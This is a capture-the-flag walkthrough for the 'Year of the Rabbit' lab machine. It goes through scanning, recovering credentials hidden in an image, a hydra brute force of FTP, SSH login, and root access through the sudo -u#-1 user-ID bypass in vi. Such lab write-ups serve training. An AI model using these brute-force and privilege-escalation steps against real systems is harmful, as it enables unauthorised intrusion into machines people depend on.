## 9. Year of the Rabbit

```
nmap -sC -sV -Pn <IP>
```

```
gobuster dir -u <URL> -w <wordlist>
```



We can try ftp login

Nothing happened

We found /assets directory lets look it up

Found a file called style.css



It has redirected us again to the rick roll meme

##### Now open burp suite and intercept the /sup3r_s3cr3t_f14g.php request



Found this



While going to this link I found an image

I performed steghide --extract -sf hotbabe.png

Found nothing so I did

```
strings hotbabe.png
```

We found FTP username and a dictionary



Save all passwords in a file and we will brute force using hydra

```
hydra -l ftpuser -P rabbit.txt <IP> ftp
```

##### Found the password – 5iez1wXKfPKQ

Login using ftp

```
ftp <ip>
```

We found a file

```
get <filename>
```

We found something which we can’t decode and its called BrainFuck



For this we will need beef

```
beef <filename>
```



Now do an ssh login

```
ssh eli@<IP>
```

find / -name user.txt 2>/dev/null

```
cat <path>
```



We cannot enter into the file

We have another user named gwendoline

Now we do have a clue



```
find / -name s3cr3t 2>/dev/null
```



It is a directory

```
cd /usr/games/s3cr3t
```

```
ls -la
```

```
cat ./<filename>
```


##### We found Gwendoline password

```
su gwendoline
```



```
sudo -l
```



We found no password login at /usr/bin/vi which we also found in our previous room Chocolate factory

Let us look in gtfobins

https://gtfobins.org/gtfobins/vim/



Here if we use gtfobins directly we wont get access

Let us use user flag but stating user as -1

0 = root

1 = user

-1 = Confuses machine

```
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

```
:!/bin/sh
```

Locate root flag

##### Now we are root

  